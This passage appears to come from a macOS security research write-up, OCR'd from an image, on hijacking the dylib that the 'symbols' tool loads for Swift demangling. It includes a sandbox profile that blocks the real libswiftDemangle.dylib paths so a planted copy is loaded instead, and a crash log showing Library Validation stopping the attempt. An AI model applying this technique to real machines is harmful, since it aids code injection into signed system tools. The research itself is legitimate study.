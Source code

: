 Let's just start an application compiled with swift, then run `symbols [pid] -printDemangling` and it will call CoreSymbolication!demangle, which has potential ability to load insecure code.

But there are two problems. First, the last branch looks impossible to be reached because `/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib` exists.

Actually we can just block them with a sandbox. **Yeah, use the security facility to trigger something insecure.**

```lisp
(version 1)
(allow default)
(deny file-read*
  (literal "/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib")
  (literal "/Developer/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib")
  (literal "/usr/lib/libswiftDemangle.dylib")
)
```

Then, spawn a child process with `symbols [pid] -printDemangling` to trigger dylib hijack.

Now we have a second problem. It crashes.

```
System Integrity Protection: enabled
Crashed Thread: 0 Dispatch queue: com.apple.main-threadException Type: EXC_BAD_ACCESS (Code Signature Invalid)
Exception Codes: 0x0000000000000032, 0x000000010d745000
Exception Note: EXC_CORPSE_NOTIFY
Termination Reason: Namespace CODESIGNING, Code 0x2
kernel messages:
External Modification Warnings:
Process used task_for_pid().
VM Regions Near 0x10d745000:
 MALLOC_LARGE 000000010d70a000-000000010d745000 [ 236K] rw-/rwx SM=PRV
--> mapped file 000000010d745000-000000010d746000 [ 4K] r-x/r-x SM=PRV Object_id=2929ab85
 mapped file 000000010d748000-000000010d762000 [ 104K] r--/r-- SM=ALI Object_id=2af85085Application Specific Information:
dyld: in dlopen()
/var/folders/4d/1_vz_55x0mn_w1cyjwr9w42c0000gn/T/tmp.0b5SeUjh/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib
12 libdyld.dylib 0x00007fff66c9fd86 dlopen + 86
13 com.apple.CoreSymbolication 0x00007fff52d15332 invocation function for block in call_external_demangle(char const*) + 348
14 libdispatch.dylib 0x00007fff66c64e08 _dispatch_client_callout + 8
15 libdispatch.dylib 0x00007fff66c64dbb dispatch_once_f + 41
16 com.apple.CoreSymbolication 0x00007fff52cb880f demangle + 298
17 com.apple.CoreSymbolication 0x00007fff52cb85e3 TRawSymbol<Pointer64>::name() + 75
18 com.apple.CoreSymbolication 0x00007fff52cbd88e CSSymbolGetName + 166
```

com.apple.SamplingTools in latest macOS are code signed with [Library Validation](https://developer.apple.com/library/archive/documentation/Security/Conceptual/CodeSigningGuide/Procedures/Procedures.html) flag, so loading unsigned dylib is prohibited.
